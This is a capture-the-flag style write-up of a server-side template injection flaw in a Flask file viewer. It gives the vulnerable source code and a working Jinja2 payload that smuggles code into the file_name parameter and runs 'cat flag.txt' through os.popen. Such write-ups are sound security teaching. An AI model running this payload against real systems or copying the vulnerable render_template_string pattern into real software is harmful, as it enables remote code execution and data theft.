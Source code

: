 
# Source Code Overview and SSTI Vulnerability

The application is a simple Flask-based web service that allows users to view Python files by passing the filename as a query parameter in the URL. Here's the source code:

```python
from flask import Flask, request, render_template, redirect, url_for, render_template_string
import os 
app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')
    
@app.route('/view', methods=["GET"])
def view():
    file_name = request.args.get('file_name')
    if not file_name:
        return redirect(url_for('index'))
    if not file_name.endswith('.py'):
        return render_template('error.html')
    
    file_path = f"{file_name.split('.')[0]}.py"
    
    if not os.path.exists(file_path):
        return render_template('error.html')
    
    with open(file_path, "r") as f:
        content = f.read()
    template = f"""
<!DOCTYPE html>
<html>
<head>
    <title>View File for {file_name}</title>
    <link rel="stylesheet" href="/static/style.css">
    <link rel="stylesheet" href="/static/view.css">
</head>
<body>
    <h1>Code Preview</h1>
    <pre class="code_preview">{content}</pre>
</body>
</html>
"""
    return render_template_string(template)

if __name__ == '__main__':
    app.run()
```

## SSTI (Server-Side Template Injection) Vulnerability

The vulnerability lies in the `view` route, where the filename is taken from the `file_name` query parameter and used directly in a `render_template_string` call. Even though a minor filter is applied to check if the file ends with `.py`, the way the filename is processed leaves room for injecting malicious payloads.

**Explanation:**
- The code checks if the file ends with `.py`, but it only reads the first part of the filename (before the first period) to construct the file path (`file_name.split('.')[0]`).
- This behavior allows attackers to inject payloads between the `main` and `.py` portions of the filename, bypassing the filter and injecting Server-Side Template Injection (SSTI) payloads.

## Example Payload

The following payload demonstrates how to exploit this vulnerability:

```
main.{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat flag.txt").read()}}{%endif%}{% endfor %}.py
```

**What it does:**
- The payload injects a loop to find a specific class (`warning`) and then uses it to access Python's `os` module.
- It executes the `cat flag.txt` command to read the contents of the `flag.txt` file and display it.

This is a classic SSTI attack, leveraging Python's ability to evaluate expressions within the template context to achieve Remote Code Execution (RCE).
